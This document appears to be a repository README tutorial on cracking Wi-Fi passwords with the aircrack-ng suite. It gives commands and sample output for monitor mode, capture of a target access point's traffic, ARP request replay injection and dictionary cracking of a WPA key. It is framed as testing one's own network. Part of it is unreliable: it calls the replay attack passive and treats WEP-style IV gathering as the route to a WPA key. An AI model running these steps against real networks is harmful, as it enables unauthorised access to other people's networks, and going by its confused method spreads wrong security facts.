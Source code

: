 # Wi-Fi cracking with aircrack-ng

[Aircrack-ng](https://aircrack-ng.org/) is basically a network software suite that has been crafted to achieve the following objectives:

* packet sniffing
* attacking (replay attacks, deauthentication, fake access points...) via packet injection
* testing Wi-Fi cards and driver capabilities (capture and injection)
* cracking WEP and WPA/WPA2 Wi-Fi routers

Note that the present tutorial is not an exhaustive guide, rather it is intended to build some basic skills to test your own network's security and get familiar with the concepts.

The attack outlined below is based on a passive technique (ARP request replay attack) and it focuses on debian-based distributions assuming you have a working wireless card with drivers already patched for injection.

## Aircrack-ng installation

Aircrack-ng can be installed on a debian-based operative system by compiling the source code (for more details you can visit the [official website](https://aircrack-ng.org/)).

### Installing required and optional dependencies

Below you can find instructions for installing the basic requirements to build aircrack-ng for Debian-based operative systems.

```
$ sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

Get the latest copy of aircrack-ng:

```
$ git clone https://github.com/aircrack-ng/aircrack-ng
$ cd aircrack-ng
```

### Compiling and installing

To build aircrack-ng, the Autotools build system is used.
First, `./configure` the project for building with the appropriate options:

```
$ autoreconf -i
$ ./configure --with-experimental
```

Next, compile the project with the `make` command and use the "installing" target from the additional targets listed below to complete the installation.

 * Execute all unit testing: `make check`
 * Execute all integration testing (requires root): `make integration`
 * Installing: `make install`
 * Uninstall: `make uninstall`

## Test wireless device packet injection

The purpose of this step ensures that your card successfully supports injection.
Assuming your interface name is "wlan0" (you can retrieve it typing `iwconfig` on the terminal), type the following command:

```
# aireplay-ng --test wlan0
```

The system responds:

```
18:10:59  wlan0 channel: 10
18:10:59  Trying broadcast probe requests...
18:10:59  Injection is working!
18:11:00  Found 1 AP
...
```

This confirms your card can inject packets.

## Simple sniffing and cracking

### 1. Start the wireless interface in monitor mode

The first thing to do is looking out for a potential target putting your wireless card into monitor mode using `airmon-ng`. However, it is strongly recommended to `kill` all interfering processes prior to using the aircrack-ng suite.

```
# airmon-ng check kill
Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```

Then, it is possible to enable the monitor mode used to create another interface (mon0):

```
# airmon-ng start wlan0

PHY         Interface       Driver         Chipset

phy0        wlan0           ath9k          Qualcomm Atheros AR9485
                               (monitor mode enabled for [phy0]wlan0 on [phy0]mon0)
```

You will notice that "wlan0" has successfully been put into monitor mode.
Then, start `airodump-ng` to look out for networks:

```
# airodump-ng mon0
```

Locate the wireless network you want to crack, and note its BSSID and channel from the following output:

```
CH 10 ][ Elapsed: 36 s][2019-05-15 18:15
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router
...
```

Note that the top part of the output lists information about APs in range, and the bottom part lists clients connected to the corresponding APs.

### 2. Start airodump-ng to capture the initial vectors

Open another console session to capture the initial vectors generated by the target and to save the result into a file:

```
# airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0
```

where `-c 10` is the channel for the wireless network, `--bssid 08:00:BF:E6:31:2E` is the MAC address of the AP, `-w output-file` defines the output files that will contain the initialization vectors, and `mon0` is the interface name.

The system responds:

```
CH 10 ][ Elapsed: 12 s][2019-05-15 18:16
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router

BSSID              STATION            PWR  Lost  Packets  Probes
08:00:BF:E6:31:2E  00:0F:35:51:AC:22  -21     0   183782
```

After the execution of the command various files will be generated.

### 3. Start aireplay-ng in ARP request replay mode

The classic ARP request replay attack is the most effective way to generate new initialization vectors, and works very reliably. The purpose of this step is to start `aireplay-ng` in a mode which listens for ARP requests then reinjects them back to the access point.
Keep your `airodump-ng` and `aireplay-ng` running, open another terminal and run the ARP request replay attack:

```
# aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

Saving ARP requests in replay_arp-0321-191525.cap
You should also start airodump-ng to capture replies.
Read 618643 packets (got 304896 ARP requests), sent 194947 packets...
```
You can check if the packets are injected by looking at the `airodump-ng` screen.

### Run aircrack-ng to obtain the WPA key

At this point, you should be able to obtain the WPA key from the initialization vectors gathered in the previous steps. To perform this attack you need a wordlist and if the network password is not in the wordfile you will not crack the password.
Open another console session and type:

```
# aircrack-ng -a2 -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
```

where `-a2` specifies the attack mode for WPA/WPA2-PSK,  `-w wordlist.txt` refers to your own dictionary wordlist, and `output*.cap` selects all output files with `.cap` extension.

This is the output of a successful attack:

```
                        Aircrack-ng 1.5.2
[00:00:00] 192/1229 keys tested (520.04 k/s)

Time left: 0 seconds                                      15.62%

                     KEY FOUND! [ notsecure ]

Master Key     : 42 28 5E 5A 73 33 90 E9 34 CC A6 C3 B1 CE 97 CA
                 06 10 96 05 CC 13 FC 53 B0 61 5C 19 45 9A CE 63

Transient Key  : 86 D0 43 C9 AA 47 F8 03 2F 71 3F 53 D6 65 F3 F3
                 86 36 52 0F 48 1E 57 4A 10 F8 B6 A0 78 30 22 1E
                 4E 77 F0 5E 1F FC 73 69 CA 35 5B 54 4D B0 EC 1A
                 90 FE D0 B9 33 06 60 F9 33 4B CF 30 B4 A8 AE 3A

EAPOL HMAC     : 8E 52 1B 51 E8 F2 7E ED 95 F4 CF D2 C6 D0 F0 68
```

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Disclaimer

This tutorial has been made for educational purposes only, I don't promote malicious practices and I will not be responsible for any illegal activities.
